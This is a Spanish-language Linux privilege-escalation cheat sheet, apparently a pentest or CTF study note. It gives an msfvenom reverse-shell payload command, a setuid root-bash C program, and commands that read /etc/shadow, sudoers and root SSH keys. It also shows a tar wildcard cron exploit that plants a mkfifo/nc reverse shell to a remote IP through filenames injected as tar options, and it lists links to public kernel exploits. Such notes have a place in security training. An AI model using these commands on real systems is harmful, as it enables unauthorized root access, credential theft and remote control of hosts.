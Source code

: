 
# Cosas Básicas

1º Creacion de reverse shell con msfvenom
~~~~c
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IPATACANTE> LPORT=<PUERTO> -f elf > shell.elf
~~~~

2º RootBash
~~~~c
int main() {
	setuid(0);
	system("/bin/bash -p");
}
~~~~
NOTA: Compilar con `$ gcc -o <name> <filename.c>`


Tools de privesc que usaremos:
1º linenum
2º lse.sh
3º linpeas


# Enumeración Manual

## Credenciales

## Exploits

1º Enumerar programas en debian
~~~~c
>> dpkg -l | grep <program>
~~~~

2º Enumerar version de programa
~~~~c
>> <program> --v | -v
~~~~

3º Procesos que corren como root
~~~~c
>> ps aux | grep “^root”
~~~~


## Desconfiguraciones 

### Cron Jobs
1º Mirar crontab
~~~~c
>> cat /etc/crontab
>> cat /etc/cron*
~~~~
NOTA: desde este punto tendremos que mirar por archivos que podamos editar

### SUID / SGID

1º Buscar archivos con el par de bit de suid
~~~~c
>> find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
~~~~

### Capabilities 

1º Buscar Capabilities
~~~~c
>> getcap -r / 2>/dev/null
~~~~


### Busqueda de archchivos writeables/readables

1º /etc/passwd
~~~~c
>> ls -la /etc/passwd
>> cat /etc/passwd
~~~~

2º /etc/shadow
~~~~c
>> ls -la /etc/shadow
>> cat /etc/shadow
~~~~

3º /etc/suoders
~~~~c
>> ls -la /etc/sudoers
>> cat /etc/sudoers
~~~~

4º /root/.ssh/id_rsa
~~~~c
>> ls -la /root/.ssh/id_rsa
>> cat /root/.ssh/id_rsa
~~~~



# Enumeración Automatica

1º linenum
~~~~c
>> linenum.sh
~~~~

2º lse
~~~~c
>> lse.sh
~~~~

3º linpeas
~~~~c
>> linpeas.sh
~~~~
# Tecnicas de privesc

## Acceso Credenciales



### Password Rehusadas
Probar a hacer fuerza bruta o inicio de sesion con las contraseñas encontradas



### Credenciales de archivos de configuración

La mayoria de archivos de configuracion tienen de extension .conf, .txt

### Archivos de la BBDD local
SI tiene base de datos podriamos usar credenciales reusadas para poder entrar 


### Credenciales del Historial de Bash
Verificar si existe el archivo .bash_history

### SSH keys

~~~~c
>> cat /home/USUARIO/.ssh/id_rsa
~~~~
Si no tenemos permisos para leer es normal

### Sudo access
Sudo -l nos proporciona informacion sobre los comandos que podemos correr

~~~~c
>> sudo -l
~~~~

Este output nos dara informacion de los comandos que podemos correr como root, deberemos ir a gftobins
https://gftobins
#### Intended functionalities
Podemos abusar de funcionalidades de los comandos que podemos correr, por ejemplo
~~~~c
>> apache2 -f /etc/passwd / shadow
~~~~

## Wildcards https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks

https://int0x33.medium.com/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5


1º Comprobamos las tareas programadas
~~~~c
ls -la /etc/cron*
~~~~

2º Si vemos alguna tarea con nombre extraño la mostramos, en este ejemplo con tar 
~~~~c
cat /etc/cron.d/2minutes
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
*/2 * * * * root cd /opt/admin && tar -zxf /tmp/backup.tar.gz *
~~~~
En este caso tar es donde tenemos uqe abusar, pero tambien podemos buscar en gftobins otros binarios

3º Nos cambiaos al directorio de donde se haga esto y ponemos 
~~~~c
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f" > privesc.sh

echo "" > "--checkpoint-action=exec=sh privesc.sh"  
echo "" > --checkpoint=1
~~~~

Ponemos un listener y esperamos a que se ejecute: EJEMPLO CON TAR

# Exploits utiles
https://github.com/Liuk3r/CVE-2023-32233
https://github.com/ly4k/PwnKit
https://github.com/firefart/dirtycow
https://github.com/lrh2000/StackRot/tree/master/exp